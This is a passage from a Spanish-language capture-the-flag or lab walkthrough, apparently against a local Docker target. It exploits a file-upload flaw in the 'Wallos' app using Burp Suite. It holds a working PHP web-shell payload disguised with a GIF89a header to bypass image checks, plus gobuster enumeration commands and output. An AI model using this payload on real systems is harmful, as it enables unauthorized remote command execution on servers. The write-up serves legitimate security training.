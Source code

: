 Nos lo traemos a nuestro directorio y hacemos un "cat" para ver su contenido, donde se pueden ver una serie de instrucciones de como "engañar" a "Wallos" y subir un archivo ".php" con una webshell.

¿Y como lo hacemos?

Pues lo primero de todo, creamos un archivo llamado, por ejemplo, "webshell.php".

Vamos al navegador, nos dirijimos a la pagina y creamos una suscripcion nueva, donde en la parte del logo, elegimos nuestro recien creado "webshell.php". Ahora, antes de guardarla/crearla, nos pasaremos a BURPSUITE.

No obstante, antes de ello, en el navegador, hay que ir a "opciones" y en "opciones de red", configuraremos un proxy manual con la IP 127.0.0.1 y el puerto 8080.

Una vez hecho esto, ahora si, abrimos el BURPSUITE, y en la parte de proxy ponemos "Intercept on".

Es momento de volver al navegador y guardar/crear nuestra suscripcion.

Veremos que BURPSUITE intercepta esta peticion, la cual pasaremos al "Repeater" haciendo click con el boton secundario del raton y eligiendo "Send to Repeater".

Ahora, modificamos la peticion interceptada y escribiremos lo que nos decia anteriormente el exploit que habia que cambiar:
```
Content-Disposition: form-data; name="logo"; filename="revshell.php"
 
Content-Type: image/jpeg

GIF89a;

<?php
	system($_GET['cmd']);
?>
```
Hecho esto, le daremos a "FORWARD" y veremos que nos sube el archivo. Pero, ¿y ahora donde puedo encontrar el archivo subido?

Bueno, pues dejamos esto de momento "aparcado" y vamos a hacer un poco de FUZZING WEB para ver si sacamos el directorio donde se suben los logotipos (que sera algo tipo "uploads").

Para ello, usaremos el "gobuster" de la siguiente forma:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Y recibimos esta informacion por pantalla:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 7022]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
/js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
```
Vemos que hay una carpeta llamada "/images" por lo que probaremos con ella en el navegador y vemos que si entramos aqui, hay unos cuantos directorios por lo que iremos probando por ellos a ver si encontramos nuestro archivo ".php".
